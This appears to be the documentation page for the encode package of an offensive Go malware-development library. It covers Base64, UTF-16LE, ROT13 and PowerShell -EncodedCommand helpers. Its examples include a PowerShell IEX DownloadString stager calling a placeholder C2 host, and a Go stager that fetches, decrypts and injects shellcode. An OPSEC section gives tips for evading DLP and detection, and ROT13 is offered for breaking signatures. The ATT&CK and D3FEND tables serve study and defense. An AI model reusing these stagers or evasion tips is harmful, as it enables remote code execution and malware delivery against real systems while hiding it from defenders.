

# Encode

[← encode index](README.md) · [docs/index](../../index.md)

## TL;DR

Transport-safe byte transforms: Base64 (RFC 4648 §4 + §5), UTF-16LE,
ROT13, and PowerShell `-EncodedCommand` (`Base64(UTF-16LE(script))`).
Pure functions, no system interaction, cross-platform.

## Primer

Encoding solves a different problem from encryption. Many channels
cannot transport arbitrary bytes: HTTP headers reject control characters,
URLs reject `+` and `/`, JSON strings reject zero bytes, command lines
on Windows expect UTF-16, and `powershell.exe -EncodedCommand` accepts
only Base64-of-UTF-16LE.

`encode` covers each of those representations with a one-line API. It is
not a security boundary — Base64 is reversible by anyone who reads the
output. The pattern in this codebase is **encrypt with `crypto`, then
encode for the wire**: confidentiality from the cipher, transportability
from the encoding.

The package has no Windows-specific code (despite UTF-16LE being
Windows' native string format) and cross-compiles cleanly to every Go
target.

## How it works



`PowerShell(script)` is a convenience wrapper:
`Base64Encode(ToUTF16LE(script))` — exactly what `powershell.exe
-EncodedCommand` parses.

## API Reference

### `Base64Encode(data []byte) string`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/encode#Base64Encode)

Encode `data` as standard Base64 (RFC 4648 §4, padded with `=`).

**Side effects:** allocates `4 * ceil(len(data)/3)` bytes.

**OPSEC:** very-quiet. Pure data transform.

### `Base64Decode(s string) ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/encode#Base64Decode)

Decode standard Base64.

**Returns:** decoded bytes, or `error` for malformed input.

### `Base64URLEncode(data []byte) string`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/encode#Base64URLEncode)

URL-safe Base64 (RFC 4648 §5) — uses `-` and `_` instead of `+` and `/`.
Safe in URLs, query strings, filenames.

### `Base64URLDecode(data string) ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/encode#Base64URLDecode)

Inverse of `Base64URLEncode`.

### `ToUTF16LE(s string) []byte`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/encode#ToUTF16LE)

Convert a Go UTF-8 string to little-endian UTF-16 bytes — the format
Windows API parameters (`LPWSTR`) and `powershell.exe -EncodedCommand`
expect.

**Returns:** byte slice with two bytes per BMP code point (more for
supplementary planes).

**Side effects:** allocates `2 * <utf-16 code unit count>` bytes.

### `PowerShell(script string) string`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/encode#PowerShell)

Convenience: `Base64Encode(ToUTF16LE(script))`. Drop the result into
`powershell.exe -EncodedCommand <output>`.

### `ROT13(s string) string`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/encode#ROT13)

Caesar shift by 13 over ASCII letters; non-alpha bytes pass through
unchanged. Self-inverse: `ROT13(ROT13(x)) == x`.

> [!CAUTION]
> ROT13 is not security. Provided for novelty / signature-breaking on
> ASCII strings (e.g. WinAPI function names in obfuscated source).

## Examples

### Simple

```go
encoded := encode.Base64Encode([]byte("hello"))
decoded, _ := encode.Base64Decode(encoded)
```

See `ExampleBase64Encode`, `ExamplePowerShell`, `ExampleToUTF16LE` in
[`encode_example_test.go`](../../../encode/encode_example_test.go).

### Composed (`crypto` + `encode` for HTTP transport)

Encrypt first, then encode for the wire:

```go
import (
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/encode"
)

key, _ := crypto.NewAESKey()
ct, _  := crypto.EncryptAESGCM(key, rawShellcode)
wire   := encode.Base64Encode(ct)
// transport `wire` over HTTP / JSON / etc.

// Receiver:
ct2, _ := encode.Base64Decode(wire)
pt, _  := crypto.DecryptAESGCM(key, ct2)
```

### Advanced (PowerShell stager)

Generate a one-liner that downloads and executes a remote script:

```go
script := `IEX (New-Object Net.WebClient).DownloadString('https://c2.example/s')`
arg := encode.PowerShell(script)
// powershell.exe -NoProfile -EncodedCommand <arg>
```

### Complex (encode + crypto + transport)

End-to-end stager that pulls an encrypted payload from C2, decodes,
decrypts, injects:

```go
import (
    "io"
    "net/http"

    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/encode"
    "github.com/oioio-space/maldev/inject"
)

func stage(c2URL string, key []byte) error {
    resp, err := http.Get(c2URL)
    if err != nil { return err }
    defer resp.Body.Close()

    body, err := io.ReadAll(resp.Body)
    if err != nil { return err }

    ct, err := encode.Base64URLDecode(string(body))
    if err != nil { return err }

    shellcode, err := crypto.DecryptAESGCM(key, ct)
    if err != nil { return err }

    inj, err := inject.NewWindowsInjector(&inject.WindowsConfig{
        Config: inject.Config{Method: inject.MethodCreateThread},
    })
    if err != nil { return err }
    return inj.Inject(shellcode)
}
```

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| Long Base64 string passed to `powershell.exe -EncodedCommand` | Sysmon Event 1 (Process Create) command-line scanning, AMSI |
| Base64 string > 1 KB in HTTP request body | Network DLP, Suricata `entropy` rules |
| UTF-16LE blob in a text-typed channel | Anomaly: text channels normally see UTF-8 |
| `IEX (New-Object Net.WebClient).DownloadString(...)` after Base64 decode | Sysmon Event 4104 (PowerShell ScriptBlockLogging) |

**D3FEND counters:**

- [D3-SEA](https://d3fend.mitre.org/technique/d3f:StaticExecutableAnalysis/)
  — static executable / script analysis.
- [D3-FCR](https://d3fend.mitre.org/technique/d3f:FileContentRules/) —
  YARA / regex on decoded content.
- [D3-NTPM](https://d3fend.mitre.org/technique/d3f:NetworkTrafficPolicyMapping/)
  — block outbound `IEX`+Base64 patterns at the proxy.

**Hardening:** chunk long Base64 across multiple requests; randomise
field order; pad with realistic noise tokens before encoding.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1027](https://attack.mitre.org/techniques/T1027/) | Obfuscated Files or Information | PowerShell `-EncodedCommand` wrapper, Base64 wrappers | D3-SEA |
| [T1027.013](https://attack.mitre.org/techniques/T1027/013/) | Encrypted/Encoded File | Base64 envelope around encrypted payload | D3-FCR |
| [T1140](https://attack.mitre.org/techniques/T1140/) | Deobfuscate/Decode Files or Information | `Base64Decode`, `Base64URLDecode` | D3-FCR |

## Limitations

- **Encoding is not encryption.** Base64 is trivially reversible.
  Always encrypt before encoding for non-public payloads.
- **Entropy spike on the wire.** Long Base64 strings are visible to
  network DLP. Chunk into multiple requests, or use a more selective
  steganographic carrier.
- **Command-line length cap.** `powershell.exe -EncodedCommand` accepts
  ~32 KB of Base64. Larger stagers must download then execute, not
  embed inline.
- **UTF-16LE assumes BMP.** Supplementary-plane code points (emoji,
  CJK extensions) get surrogate pairs — fine for PowerShell but
  surprises any consumer expecting fixed two-byte units.

## See also

- [`crypto`](../crypto/README.md) — pair to encrypt before encoding.
- [`hash`](../hash/README.md) — fingerprinting and ROR13 API hashing.
- [Microsoft Docs: PowerShell `-EncodedCommand`](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1)
